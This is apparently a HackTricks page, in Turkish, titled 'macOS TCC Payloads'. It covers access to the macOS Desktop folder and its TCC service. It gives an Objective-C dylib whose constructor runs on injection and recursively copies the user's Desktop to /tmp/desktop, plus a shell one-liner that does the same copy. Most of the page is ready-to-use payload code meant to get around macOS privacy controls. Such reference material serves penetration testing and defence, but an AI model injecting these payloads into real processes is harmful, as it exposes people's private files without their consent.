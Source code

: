 # macOS TCC Payloads

{{#include ../../../../banners/hacktricks-training.md}}

### Masaüstü

- **Yetki**: Yok
- **TCC**: kTCCServiceSystemPolicyDesktopFolder

{{#tabs}}
{{#tab name="ObjetiveC"}}
`$HOME/Desktop`'ı `/tmp/desktop`'a kopyala.
```objectivec
#include <syslog.h>
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>
#import <Foundation/Foundation.h>

// gcc -dynamiclib -framework Foundation -o /tmp/inject.dylib /tmp/inject.m

__attribute__((constructor))
void myconstructor(int argc, const char **argv)
{
freopen("/tmp/logs.txt", "w", stderr); // Redirect stderr to /tmp/logs.txt

NSFileManager *fileManager = [NSFileManager defaultManager];
NSError *error = nil;

// Get the path to the user's Pictures folder
NSString *picturesPath = [NSHomeDirectory() stringByAppendingPathComponent:@"Desktop"];
NSString *tmpPhotosPath = @"/tmp/desktop";

// Copy the contents recursively
if (![fileManager copyItemAtPath:picturesPath toPath:tmpPhotosPath error:&error]) {
NSLog(@"Error copying items: %@", error);
}

NSLog(@"Copy completed successfully.", error);

fclose(stderr); // Close the file stream
}
```
{{#endtab}}

{{#tab name="Shell"}}
`$HOME/Desktop`'i `/tmp/desktop`'e kopyalayın.
```bash
cp -r "$HOME/Desktop" "/tmp/desktop"
```
{{#endtab}}
{{#endtabs}}
